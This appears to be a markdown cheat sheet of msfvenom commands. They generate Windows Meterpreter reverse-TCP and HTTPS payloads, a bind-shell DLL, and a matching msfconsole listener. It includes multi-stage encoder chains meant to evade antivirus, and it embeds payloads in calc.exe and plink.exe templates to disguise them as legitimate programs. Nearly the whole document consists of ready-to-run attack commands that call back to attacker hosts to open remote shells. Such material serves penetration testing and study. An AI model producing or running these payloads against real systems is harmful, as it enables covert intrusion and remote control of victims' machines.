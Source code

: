 # Msfvenom

Examples of previously created MSFVenom payloads required in the different scenarios

##### Reverse TCP:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -o meterpreter.exe
```

##### Encoded multiple times:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -e x86/shikata_ga_nai -i 10 -f exe -o meterpreter.exe
```

##### Add Windows Calc.exe as a template:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -f exe -x calc.exe -e x86/shikata_ga_nai -i 10 -f exe -o meterpreter.exe
```


##### Reverse HTTPS with proxy authentication:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_https HttpProxyUser=user HttpProxyPass=password LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -o meterpreter.exe
```

##### Bind Shell - DLL Payload:
```
msfvenom --platform Windows -p windows/shell_bind_tcp LPORT=443 -f DLL -o bind_shell.dll
```

#### Encoding:

```
-e encoder type
-i how man times to encode
```
#### Filler and bad characters:
```
-n the amound of bytes to add at the beginning
-b exclude bad chars (\x00 common filler, searched for by AV)
```


##### MSF Console - start a listener/handler:
```
msfconsole -qx "use exploit/multi/handler;
set payload windows/meterpreter/reverse_tcp;
set lhost 10.0.0.1;
set lport 443;
exploit -j"
```


## Custom payload

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.53 LPORT=443 -f raw -e x86/shikata_ga_nai -i 10 | \
    msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
    msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
    
 

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.53 LPORT=443 -f raw -e x86/shikata_ga_nai -i 10 | \
    msfvenom -a x86 --platform windows -e x86/jmp_call_additive -i 8  -f raw | \
    msfvenom -a x86 --platform windows -e x86/call4_dword_xor -i 8  -f raw | \
    msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
    msfvenom -a x86 --platform windows -e x86/fnstenv_mov -i 8  -f raw | \
    msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
    
    
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.234 LPORT=443 R | \
    msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -t exe -c --platform windows /usr/share/windows-binaries/plink.exe -o beffany.exe
